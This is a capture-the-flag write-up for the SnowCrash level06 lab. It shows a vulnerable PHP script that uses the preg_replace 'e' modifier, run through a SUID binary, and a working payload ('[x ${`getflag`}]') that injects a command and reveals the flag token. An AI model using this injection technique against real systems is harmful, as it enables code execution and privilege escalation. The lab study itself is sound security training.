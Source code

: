 In home directory there are executable file and PHP script:
```shell
level06@SnowCrash:~$  ls -la
total 24
[...]
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```
Let's reading the script file:
```shell
level06@SnowCrash:~$ cat level06.php 
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```
<"/(\[x (.*)\])/e"> this regex use deprecated and vunerable regex 'e' modifier. [Read more](https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier)
And it will eveluate this (`.*`).
Our executable wait for an argument to use with it:
```shell
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```
So we can write a file which will much the regex <"/(\[x (.*)\])/e"> and use it with our exec file (it with SUID bit)
```shell
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/getflag
level06@SnowCrash:~$ ./level06 /tmp/getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```
